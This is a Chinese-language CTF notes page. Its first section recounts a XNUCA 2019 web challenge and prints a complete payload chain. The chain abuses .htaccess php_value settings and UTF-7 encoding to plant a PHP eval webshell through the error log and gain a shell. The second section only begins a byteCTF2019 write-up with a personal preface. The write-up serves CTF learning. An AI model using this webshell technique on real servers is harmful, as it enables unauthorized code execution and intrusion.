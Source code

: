 # 前言

记录一些平时在CTF中遇到的一些skill





# 正文

## 0x01

参考文章：[XNUCA 2019 Qualifier的两个web题目writeup](https://www.anquanke.com/post/id/185377)

根据文章描述这道题，考察上传文件，`index.php`有一个写文件的功能且只能写文件名为`[a-z.]*` 的文件，且文件内容存在黑名单过滤，并且结尾被加上了一行，这就导致我们无法直接写入`.htaccess`里面`auto_prepend_file`等php_value。







最后的payload为

```txt
Step1 写入.htaccess error_log相关的配置：

php_value include_path "/tmp/xx/+ADw?php die(eval($_GET[2]))+ADs +AF8AXw-halt+AF8-compiler()+ADs"
php_value error_reporting 32767
php_value error_log /tmp/fl3g.php
# 

Step2 访问index.php留下error_log

Step3 写入.htaccess新的配置
php_value zend.multibyte 1
php_value zend.script_encoding "UTF-7"
php_value include_path "/tmp"
# 

Step4 再访问一次index.php?2=evilcode即可getshell.
```





## 0x02

记录byteCTF2019的解题思路

### 前言

这次比赛给自己一个警醒，想要进步就不能胆怯，不管题目多难，都要去尝试，拼了命去尝试，不能懒，不能怕。明明告诉自己，怕就已经输了......


